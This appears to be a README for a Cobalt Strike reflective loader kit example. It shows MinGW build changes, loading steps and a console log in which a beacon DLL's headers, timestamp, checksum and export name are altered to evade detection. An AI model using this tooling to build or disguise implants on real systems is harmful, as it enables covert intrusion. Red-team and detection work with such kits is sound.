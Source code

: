 Added the following function prototype definitions after the Note 1 and 2 code
comments.

```
DLLEXPORT ULONG_PTR WINAPI ReflectiveLoader( LPVOID lpParameter );
#ifdef WIN_X64
__declspec(noinline) ULONG_PTR caller( VOID );
#else
__declspec(noinline) ULONG_PTR caller( VOID ) asm ("caller");
#endif
```

Added the following assembly code to the end of the file to define the caller
function.  This replaced the original caller function to support compiling
with MinGW. 

```
__asm__(
#ifdef WIN_X64
"caller: \n"
    "mov rax, [rsp] \n"            // get the return address
    "ret \n"
#else
"caller: \n"
    "mov eax, [esp] \n"            // get the return address
    "ret \n"
#endif
);
```

# Compile

This example is compiled with the provided ./build.sh script which uses the
MinGW compiler.

```
Usage: ./build <rdll_size> <output directory>
```

# Load into Cobalt Strike

Open the Scripts manager, Cobalt Strike -> Scripts

Load `<output directory>\udrl\udrl.cna`

Create a payload to see the results in the Script Console of the loader
successfully being extracted. 


```
[11:38:57] [udrl_kit.cna] UDRL Kit Loaded
[11:38:57] [udrl_kit.cna] UDRL - BEACON_RDLL_SIZE hook
[11:38:57] [udrl_kit.cna] UDRL - Use the 5K Reflective Loader
[11:38:57] [udrl_kit.cna] UDRL - BEACON_RDLL_GENERATE hook
[11:38:57] [udrl_kit.cna] UDRL - resources/beacon.x64.dll
[11:38:57] [udrl_kit.cna] UDRL - /home/arsenal-kit/dist/udrl/ReflectiveLoader.x64.o
[11:38:57] [udrl_kit.cna] UDRL - Length 3266
[11:38:57] [udrl_kit.cna] UDRL - Extracted loader length 2432
[11:38:57] [udrl_kit.cna] UDRL - Rich header will be replaced using the header from the profile.
[11:38:57] [udrl_kit.cna] UDRL - Compile time will be updated with this timestamp: 12 Dec 2017 05:05:32
[11:38:57] [udrl_kit.cna] UDRL - Image size will be updated with this value: 4661248
[11:39:01] [udrl_kit.cna] UDRL - Checksum will be updated with this value: 10010
[11:39:01] [udrl_kit.cna] UDRL - Export name of the dll will be updated to: logger.dll
```

